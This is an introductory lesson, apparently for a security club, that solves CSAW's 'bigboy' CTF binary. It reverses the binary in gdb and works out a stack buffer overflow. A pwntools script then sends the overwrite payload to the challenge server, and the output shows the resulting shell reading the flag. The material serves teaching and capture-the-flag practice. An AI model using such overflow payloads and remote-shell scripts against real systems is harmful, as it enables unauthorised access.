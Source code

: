 # Pwn Tools Introduction

May want to `pip` install pwn tools

> $ pip install pwntools

Pip varies from system to system so we may want to ask for help.

## Todays Lesson
This lesson is inspired by CSAW's bigboy challenge. It will involve some reversing with the debugger and then a building a script that will connect via netcat and complete the challenge.

## So get the binary `boi` from the slack.
A binary is an executable that is usually input/output.

To run a binary you use a `./` before the name.

However when we try it we get an error????
```
$ ./boi
The file './boi' is not executable by this user
```

Why is that?

Well the answer is below but here are some lessons about e`x`ecuteable. When I type:

```
$ ls -l
-rw-r--r--@ 1 user  8792 Oct 8 08:59 boi
```
What is the `-rw-r--r--`? That is the permissions of the file.

The first dash means is for directory or special types of files (as of now it is not import). The next three characters are for the user and they represent the read, write, and `execution` permissions of the file. The next 3 are for the group and they have the same permissions in the same order. Then the last three are the permissions for everyone.

For the moment we only care about the user permission to execute so type:
```
$ chmod +x boi
$ ls -l
-rwxr-xr-x@ 1 user  8792 Oct 8 08:59 boi
```

Now try running it (you need to run it on linux or else it will give an error)

```
$ ./boi
Are you a big boiiiii??
yes
Thus Oct 11 12:45:55 EDT 2018
```

Nothing really happens so lets debug it.
```
$ gdb -q ./boi
```

`gdb` is the general debugger and we use this to examine the disassembly of the file

so in gdb:
```
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400641 <+0>:	push   rbp
   0x0000000000400642 <+1>:	mov    rbp,rsp
   0x0000000000400645 <+4>:	sub    rsp,0x40
   0x0000000000400649 <+8>:	mov    DWORD PTR [rbp-0x34],edi
   0x000000000040064c <+11>:	mov    QWORD PTR [rbp-0x40],rsi
   0x0000000000400650 <+15>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000400659 <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040065d <+28>:	xor    eax,eax
   0x000000000040065f <+30>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000400667 <+38>:	mov    QWORD PTR [rbp-0x28],0x0
   0x000000000040066f <+46>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000400677 <+54>:	mov    DWORD PTR [rbp-0x18],0x0
   0x000000000040067e <+61>:	mov    DWORD PTR [rbp-0x1c],0xdeadbeef
   0x0000000000400685 <+68>:	mov    edi,0x400764
   0x000000000040068a <+73>:	call   0x4004d0 <puts@plt>
   0x000000000040068f <+78>:	lea    rax,[rbp-0x30]
   0x0000000000400693 <+82>:	mov    edx,0x18
   0x0000000000400698 <+87>:	mov    rsi,rax
   0x000000000040069b <+90>:	mov    edi,0x0
   0x00000000004006a0 <+95>:	call   0x400500 <read@plt>
   0x00000000004006a5 <+100>:	mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:	cmp    eax,0xcaf3baee
   0x00000000004006ad <+108>:	jne    0x4006bb <main+122>
   0x00000000004006af <+110>:	mov    edi,0x40077c
   0x00000000004006b4 <+115>:	call   0x400626 <run_cmd>
   0x00000000004006b9 <+120>:	jmp    0x4006c5 <main+132>
   0x00000000004006bb <+122>:	mov    edi,0x400786
   0x00000000004006c0 <+127>:	call   0x400626 <run_cmd>
   0x00000000004006c5 <+132>:	mov    eax,0x0
   0x00000000004006ca <+137>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004006ce <+141>:	xor    rcx,QWORD PTR fs:0x28
   0x00000000004006d7 <+150>:	je     0x4006de <main+157>
   0x00000000004006d9 <+152>:	call   0x4004e0 <__stack_chk_fail@plt>
   0x00000000004006de <+157>:	leave  
   0x00000000004006df <+158>:	ret    
End of assembler dump.
```

This is the disassembly for the the main function (which is the only important function)

I ran this through `radare2` (which is pre-installed kali and need to install on ubuntu). This disassembles it and adds some commentary such as that the command `0x40077c` is for `/bin/bash`. So our goal is to execute that code.

The `0x40077c` is on line `<+110>`, and going up the command structure we see:
```asm
cmp    eax,0xcaf3baee
jne    0x4006bb <main+122>
```
This compares the the value in `eax` in to `0xcaf3baee` and jumps if it is not equal (`jne`). We don't want it to jump.

So looking at attack vectors there is the input. To test how much we need to overflow the buffer we use a a break point at `<+103>`.
```
(gdb) break *main+103
Breakpoint 1 at 0x4006a8
(gdb) run
Starting program: /root/InfoSec-Lessons/boi 
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

Breakpoint 1, 0x00000000004006a8 in main ()
(gdb) GGGGHHHH
Undefined command: "GGGGHHHH".  Try "help".
(gdb) i r eax
eax            0x46464646	1179010630
(gdb)
```
`0x46` is the value F so that means the 4 Fs are our payload

Run it again:
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/InfoSec-Lessons/boi 
Are you a big boiiiii??
AAAABBBBCCCCDDDDEEEEabcd

Breakpoint 1, 0x00000000004006a8 in main ()
(gdb) 
(gdb) i r eax
eax            0x64636261	1684234849
(gdb)
```

The `0x64` is the value for `d` that means little endian. Great lets try our exploit.

So our exploit is `"A" + "\xee\xba\xf3\xca"`

Now we need to deliver it through netcat. 
`nc pwn.chal.csaw.io 9000`

So we need pwn tools to do this. Specifically the remote command

The result is:
```python
from pwn import *
import string

r = remote('pwn.chal.csaw.io', 9000)
print r.recvuntil('Are you a big boiiiii??')


print r.send("aaaabbbbccccddddeeee\xee\xba\xf3\xca")

print r.recv()

r.interactive()
```

Now lets try it out

```
> python big_pwn.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
 _    ___        ____   ___  _ _ _ _ 
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/                       
***************************************
Are you a big boiiiii??
None


[*] Switching to interactive mode
aaaabbbbccccddddeeee����ls
ls
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bigboy@52c491e1e9ec:~$ ls
art.txt  boi  flag.txt  run.sh
bigboy@52c491e1e9ec:~$ $ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```

There is the flag

